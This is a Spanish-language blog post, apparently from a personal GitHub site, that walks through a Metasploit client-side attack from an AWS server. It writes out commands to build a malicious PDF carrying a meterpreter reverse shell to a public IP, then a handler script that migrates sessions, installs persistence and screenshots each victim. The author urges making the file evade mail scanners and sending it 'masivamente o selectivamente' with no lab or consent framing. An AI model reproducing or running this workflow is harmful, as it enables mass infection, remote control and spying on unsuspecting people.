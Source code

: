 ```yaml
---
layout: post
title: "metasploit - client side attack"
---
```


## {{ page.title }}
###### {{ page.date | date_to_string }}

<div style="text-align: center;"><img style="width: 527px; height: 243px;" src="/assets/img/60.png"></div>

<h4>Introducción</h4>

<div class="p">Entonces, estaba el otro día hablando sobre temas de seguridad y salíeron a mención metasploit y set, dos herramientas que facilitan el trabajo en el area, no conozco a persona interesada por el tema que no lo conozca. Hace algunos años habia estado interesado en mfs, así que pude notar la gran mejoria respecto a aquellos tiempos. Es increible, me siento como un chico de pelicula de policias cuando lo ejecuto.
</div>

<div class="p">Después de la charla, me quede con la espinita de que tan fácil sería montar algo usable por un total noob en el tema (me), y nada, al parecer hemos llegado a un punto donde cualquier persona puede montar una plataforma relativamente robusta para lanzar ataques. MMM, bueno, eso es desde hace tiempo, pero ahora, junto ahora (y justo como lo he experimentado) es muy fácil y no se requieren de mucha preparación. Tenemos servicios, como AWS, Linode que también ayudan a superar las limitaciones de las configuraciones NAT y el uptime. En mi opinión es una de las mejoras epocas para involucrarse en la seguridad informática.
</div>

<div class="p">Sin más preambulos, dejaré unos apuntes...  daré por sentado que se tiene una cuenta en AWS, es todo lo que realmente necesitaremos...
</div>


<h3>Instalación</h3>

<div class="p">Lo primero que se tendrá que hacer, será instalar msf en la máquina virtual de AWS, en mi caso, he instalado ubuntu 12.04.., también es buena idea, abrir los puertos, 80, 443 y 22, por defecto solo abrira el 22, así que tendran que configurar el perfil de seguridad. Paquetes básicos
</div>

<pre class="sh_sh">
$ sudo apt-get install build-essential libreadline-dev libssl-dev libpq5 libpq-dev \
  libreadline5 libsqlite3-dev libpcap-dev subversion openjdk-7-jre git-core \
  autoconf postgresql pgadmin3 curl zlib1g-dev libxml2-dev libxslt1-dev vncviewer \
  libyaml-dev ruby1.9.3 nmap
</pre>

<div class="p">Gemas necesarias:
</div>

<pre class="sh_sh">
$ sudo gem install wirble msgpack sqlite3 pg activerecord nokogiri
</pre>

<div class="p">Metasploit
</div>

<pre class="sh_sh">
$ git clone https://github.com/rapid7/metasploit-framework mfs
</pre>

<div class="p">Esto creará una carpeta llamada 'mfs' con el framework dentro, ahora será momento de obtener privilegios de super usuario (para poder poner a escuchar handlers en cualquier puerto):
</div>

<pre class="sh_sh">
$ sudo su
# 
</pre>

<ul>
    <li><a href="http://www.darkoperator.com/installing-metasploit-in-ubunt/" target="_blank">http://www.darkoperator.com/installing-metasploit-in-ubunt/</a></li>
    <li><a href="https://github.com/rapid7/metasploit-framework/wiki/Metasploit-Development-Environment" target="_blank">https://github.com/rapid7/metasploit-framework/wiki/Metasploit-Development-Environment</a></li>
</ul>

<h3>Payload</h3>

<div class="p">Una vez instalado, hay que crear un archivo que pueda ser enviado, que explote una vulnerabilidad en el equipo remoto y que nos devuelva el control del mismo, con metasploit es muy fácil:
</div>

<pre class="sh_sh">
# cd mfs/
mfs # ./msfconsole
...
msf > use exploit/windows/fileformat/adobe_cooltype_sing
msf exploit(adobe_utilprintf) > set FILENAME ganaste.pdf
FILENAME => ganaste.pdf
msf exploit(adobe_utilprintf) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(adobe_utilprintf) > set LHOST 107.21.182.228
LHOST => 107.21.182.228
msf exploit(adobe_utilprintf) > set LPORT 443 (https)
msf exploit(adobe_utilprintf) > exploit

[*] Handler binding to LHOST 0.0.0.0
[*] Started reverse handler
[*] Creating 'ganaste.pdf' file...
[*] Generated output file /root/ganaste.pdf
[*] Exploit completed, but no session was created.
</pre>

<div class="p">Por defecto, el archivo que genera mfs no será util, gmail, hotmail, yahoo, no permitiran enviarlo, al detectarlo como un archivo malicioso, así que aquí tendrán que usar su imaginación para hacerlo indetectable.., lamentablemente no puedo ayudar con esa parte.., si lo hiciera y alguien más siguiera estos pasos seguramente dentro de poco, el método que utilice dejaría de ser util.., pero adelanto que no es demasiado complicado, solo es cuestión de buscar un poco y mfs ayuda mucho.., un par de horas de pruebas-errores deberian bastarles para encontrar un método que funcione.
</div>

<ul>
    <li><a href="http://www.offensive-security.com/metasploit-unleashed/Client_Side_Attacks" target="_blank">http://www.offensive-security.com/metasploit-unleashed/Client_Side_Attacks</a></li>
</ul>

<h3>Handler (servidor)</h3>

<div class="p">Listo, una vez que tengan un archivo indetectable, pueden enviarlo masivamente o selectivamente a las personas que lo deseen y a pulse de raton, tendran sesiones en cada una de esas computadoras (siempre y cuando hayan sido afectadas por la vulnerabilidad en cuestión). Para poder usar las sesiones más de una vez, es una buena idea migrar la sesión a un proceso más estable (en lugar de adobe, que en la máquina atacada se vera congelado y después mostrará una pantalla en blanco, pantalla que la mayoría de los usuarios cerraran, terminando la conexión) y luego configurarlo para que inicie con el sistema.
</div>

<pre class="sh_sh">
# cat /root/migrate_persistence.rc
run post/windows/manage/migrate
run persistence -U -i 5 -p 443 -r 107.21.182.22 //o la ip de la máquina donde tengan mfs
</pre>

<pre class="sh_sh">
# cat /root/autoruncommands.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 443
set LHOST 107.21.182.22
set AutoRunScript multi_console_command -rc /root/migrate_persistence.rc
set ExitOnSession false
exploit -j

-ruby-
  sleep(1)
  print_status("waiting on an incoming session...")
  while (true)
    framework.sessions.each_pair do |sid,s|
    thost = s.session_host

    if s.ext.aliases['stdapi']
      print_status("Screenshotting session #{sid} #{thost}...")
      s.console.run_single("screenshot -p #{thost}_#{sid}.jpg -v false -q 85")
    else
      print_status("session #{sid} #{thost} active, but not yet configurated")
    end
  end
end
-/ruby-
</pre>

<pre class="sh_sh">
# ./msfconsole -r /root/autoruncommands.rc
</pre>

<ul>
    <li><a href="http://johnbabio.wordpress.com/tag/autorunscript/" target="_blank">http://johnbabio.wordpress.com/tag/autorunscript/</a></li>
    <li><a href="https://community.rapid7.com/community/metasploit/blog/2010/03/22/automating-the-metasploit-console" target="_blank">https://community.rapid7.com/community/metasploit/blog/2010/03/22/automating-the-metasploit-console</a></li>
</ul>

<div class="p">Listop, a empezar a divertirnos
</div>

<ul>
    <li><a href="http://www.offensive-security.com/metasploit-unleashed/Metasploit_Meterpreter_Basics" target="_blank">http://www.offensive-security.com/metasploit-unleashed/Metasploit_Meterpreter_Basics</a></li>
    <li><a href="http://www.offensive-security.com/metasploit-unleashed/Windows_Post_Gather_Modules" target="_blank">http://www.offensive-security.com/metasploit-unleashed/Windows_Post_Gather_Modules</a></li>
    <li><a href="http://cyruslab.wordpress.com/2012/03/09/metasploit-post-exploitation-with-meterpreter-2/" target="_blank">http://cyruslab.wordpress.com/2012/03/09/metasploit-post-exploitation-with-meterpreter-2/</a></li>
    <li><a href="http://rajhackingarticles.blogspot.mx/2012/11/best-of-metasploit-meterpreter-script.html" target="_blank">http://rajhackingarticles.blogspot.mx/2012/11/best-of-metasploit-meterpreter-script.html</a></li>
</ul>
